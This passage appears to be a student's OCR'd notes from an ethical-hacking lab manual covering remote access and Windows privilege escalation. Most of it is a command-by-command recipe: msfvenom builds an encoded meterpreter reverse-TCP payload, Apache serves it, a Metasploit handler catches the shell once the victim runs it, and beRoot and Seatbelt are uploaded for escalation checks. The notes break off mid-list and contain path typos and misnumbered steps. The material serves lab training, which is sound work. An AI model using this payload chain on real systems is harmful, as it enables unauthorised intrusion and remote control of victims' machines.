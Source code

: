 ### Task 5: Gain Access to a Remote System using Armitage
---
**Lab Manual 2** - page 599

### Task 6: Gain Access to a Remote System using Ninja Jonin
---
**Lab Manual 2** - page 616

### ==Task 7: Perform Buffer Overflow Attack to Gain Access to a Remote System==
---
**Lab Manual 2** - page 626

# Lab 2: Perform Privilege Escalation to Gain Higher Privileges
---

### Task 1: Escalate Privileges using Privilege Escalation Tools and Exploit Client-Side Vulnerabilities
---
**Parrot**
1. sudo su
2. msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.11.10 LPORT=4444 -f exe > /home/attacker/Desktop /Exploit.exe
3. mkdir /var/www/html/share
4. chmod -R 755 /var/www/html/share
5. chown -R www-data:www-data /var/www/hmtl/share
6. cp /home/attacker/Desktop/Exploit.exe /var/www/share
7. service apache2 start
8. msfconsole
9. use exploit/multi/handler
10. set payload windows/meterpreter/reverse_tcp
11. set LHOST 10.10.11.10
12. set LPORT 4444
13. exploit -j -z
**Windows**
14. In **Web Browser** visit **http://10.10.11.10/share**
15. Click & Download **Exploit.exe** 
16. Open **Exploit.exe**
**Parrot**
15. **Meterpreter Shell** will spawn
> If Meterpreter Shell is not spawn automatically then, type **sessions -i 1** and check shell.
18. getuid 

#### **beRoot**
19. Install **beroot** - [[Windows]]
20. upload /home/attacker/Desktop/BeRoot/beRoot.exe
21. shell
22. beRoot.exe
#### **Seatbelt** 
19. Install **Seatbelt** - [[Windows]]
20. upload /home/attacker/Desktop/Seatbelt.exe
21. shell
22. 
